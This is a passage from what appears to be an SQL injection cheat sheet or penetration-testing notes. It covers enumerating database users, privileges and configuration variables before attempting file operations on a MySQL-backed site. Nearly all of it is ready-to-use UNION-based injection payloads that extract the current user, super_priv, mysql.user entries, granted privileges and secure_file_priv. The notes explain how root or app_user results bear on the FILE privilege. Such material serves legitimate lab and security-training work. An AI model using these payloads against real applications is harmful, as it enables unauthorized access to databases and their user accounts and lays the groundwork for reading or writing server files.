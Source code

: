 
## Privilege and Configuration Enumeration

### User Information
```sql
-- Find current user
cn' UNION SELECT 1, user(), 3, 4-- -

-- Check admin privileges
cn' UNION SELECT 1, super_priv, 3, 4 FROM mysql.user WHERE user="root"-- -

-- List all database users
cn' UNION SELECT 1, user, host, 4 FROM mysql.user-- -
```

### Privilege Enumeration
```sql
-- User privileges
cn' UNION SELECT 1, grantee, privilege_type, is_grantable FROM information_schema.user_privileges WHERE grantee="'root'@'localhost'"-- -

-- Global variables
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="secure_file_priv"-- -

-- Check file permissions
cn' UNION SELECT 1, variable_name, variable_value, 4 FROM information_schema.global_variables where variable_name="file_priv"-- -
```

---

## File Operations

### Prerequisites: Privilege Verification

**Why Check Privileges?** File operations require special database privileges. Not all users can read/write files.

#### Step 1: Identify Current Database User
```sql
-- Method A: Current user function
cn' UNION SELECT 1, user(), 3, 4-- -
-- Expected: "root@localhost" (ideal) or "app_user@localhost"

-- Method B: System user query  
cn' UNION SELECT 1, user, 3, 4 FROM mysql.user-- -
-- Shows: All database users
```

**Analysis:**
- **`root`** = High privileges (DBA) → Likely has FILE privilege
- **`app_user`** = Limited privileges → May not have FILE privilege
